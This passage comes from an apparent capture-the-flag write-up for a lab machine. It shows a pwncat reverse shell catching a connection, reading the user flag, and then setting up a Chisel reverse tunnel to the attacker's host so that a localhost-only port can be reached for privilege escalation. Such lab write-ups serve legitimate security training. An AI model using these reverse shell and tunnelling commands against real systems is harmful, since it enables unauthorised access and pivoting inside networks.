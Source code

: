 Check Pwncat/Netcat listener and read the user flag.

```other
🔥\> pwncat -l -p 1234
[22:50:40] received connection from 10.10.10.243:52358                                                   connect.py:255

[22:50:42] new host w/ hash 647fe56913a903a3ee8289ba67d033d4                                              victim.py:321
[22:50:50] pwncat running in /bin/bash                                                                    victim.py:354
[22:50:55] pwncat is ready 🐈                                                                             victim.py:771

(remote) chiv@spider:/$ id
uid=1000(chiv) gid=33(www-data) groups=33(www-data)

(remote) chiv@spider:/$ cat /home/chiv/user.txt
118a5081f8d49e7b1f8244f562fec1c2
```

# Privilege Escalation

LinPeas result didn’t show any escalation path to gain root shell. However, port 8080 is bound to localhost. Let’s forward that port to our Kali Linux machine and enumerate.

For this we can use SSH to forward the port, but I will use Chisel application. We need to start a Chisel server first on Kali Linux and Chisel client on target machine.

On Kali Linux

```shell
🔥\> ./chisel server -p 9999 --reverse
2021/06/03 23:06:22 server: Reverse tunnelling enabled
2021/06/03 23:06:22 server: Fingerprint OZyBWgnDeTNqEv/nh26JwQHZj5GSpBkZy9LGUqfO7Zg=
2021/06/03 23:06:22 server: Listening on http://0.0.0.0:9999
```

On Target Machine

```shell
(remote) chiv@spider:/home/chiv$ ./chisel client 10.10.14.106:9999 R:8081:127.0.0.1:8080
2021/06/04 06:19:46 client: Connecting to ws://10.10.14.106:9999
2021/06/04 06:19:47 client: Connected (Latency 162.346554ms)
```

I forwarded target machine local port 8080 to Kali Linux machine on port 8081. Let’s access 8081 (8080) via web browser.

![Screen Shot 2021-06-03 at 23.09.13.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/1FA93719-1795-4AAE-9A7B-0590A3965935_2/Screen%20Shot%202021-06-03%20at%2023.09.13.png)

We have a login page for beta, use any username to login.

![Screen Shot 2021-06-03 at 23.10.29.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/F2F9DA96-CE3A-4783-810D-C3523A565572_2/Screen%20Shot%202021-06-03%20at%2023.10.29.png)

